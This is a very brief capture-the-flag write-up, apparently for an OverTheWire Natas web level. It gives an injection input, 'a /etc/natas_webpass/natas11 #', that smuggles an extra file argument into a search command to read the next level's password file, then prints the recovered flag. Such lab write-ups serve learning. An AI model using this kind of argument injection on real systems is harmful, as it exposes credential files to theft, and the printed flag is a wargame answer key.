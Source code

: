 # Injection

```
a /etc/natas_webpass/natas11 #
```

# Flag

```
1KFqoJXi6hRaPluAmk8ESDW4fSysRoIg
```